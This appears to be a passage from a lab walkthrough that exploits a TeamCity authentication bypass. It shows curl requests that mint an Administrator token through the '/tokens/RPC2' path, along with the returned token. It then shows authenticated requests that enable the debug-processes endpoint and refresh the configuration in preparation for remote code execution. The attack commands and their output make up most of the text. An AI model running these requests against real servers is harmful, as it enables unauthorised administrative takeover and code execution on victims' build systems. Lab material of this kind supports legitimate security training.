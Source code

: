Allow the target to run for at least 5 minutes after spawning to ensure that all services have fully initialized (including Velociraptor).

##### Obtaining an Authentication Token

TeamCity’s REST API includes an endpoint to create user authentication tokens by sending an HTTP POST request to the `/app/rest/users/{userLocator}/tokens/{name}` endpoint. This endpoint additionally allows us to provide a name for this token via the `{name}` request path parameter. If this value is set to `RPC2`, the request path will become `/app/rest/users/{userLocator}/tokens/RPC2` and will bypass the authorization check.

Typically, the first user with an ID of `1` is the `Administrator` account created during the initial installation. Thus, we can try to use the string `id:1` as the value for the `userLocator` parameter and attempt to issue a new authentication token for the Administrator user using this HTTP `POST` request.

```shell
curl -X POST http://<Target_IP>/app/rest/users/id:1/tokens/RPC2

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2024-11-13T06:55:16.176-06:00" value="eyJ0eXAiOiAiVENWMiJ9.dWRYeEc2dFM3X2VuRV9yZTJCbFpOcUloNWVV.Y2M0ODIzZGEtMTUyNy00NmY3LThiNzgtM2E0M2YzMmY0YjQ4"/>

```

The response provides a valid Administrator token.

##### Enabling Debug Mode for RCE

After acquiring the Administrator authentication token, one approach to achieve RCE on the server is to exploit the debug endpoint in the REST API at `/app/rest/debug/processes`. Access to this endpoint is restricted by the `rest.debug.processes.enable` configuration option, which is disabled by default. Therefore, we must first enable this option with the following request.

```shell
curl -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.dWRYeEc2dFM3X2VuRV9yZTJCbFpOcUloNWVV.Y2M0ODIzZGEtMTUyNy00NmY3LThiNzgtM2E0M2YzMmY0YjQ4" -X POST "http://<Target_IP>/admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true"

```

We must also refresh the server to apply the debug mode.

```shell
curl -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.dWRYeEc2dFM3X2VuRV9yZTJCbFpOcUloNWVV.Y2M0ODIzZGEtMTUyNy00NmY3LThiNzgtM2E0M2YzMmY0YjQ4" "http://<Target_IP>/admin/admin.html?item=diagnostics&tab=dataDir&file=config/internal.properties"

    <!DOCTYPE html>
    <html lang="en" class="admin-ui">
      <head>
        <title>TeamCity</title>

<link rel="Shortcut Icon" href="/favicon.ico?v10" type="image/x-icon" sizes="16x16 32x32"/>
<meta charset="UTF-8">

<meta name="format-detection" content="telephone=no"/>
<SNIP>

```
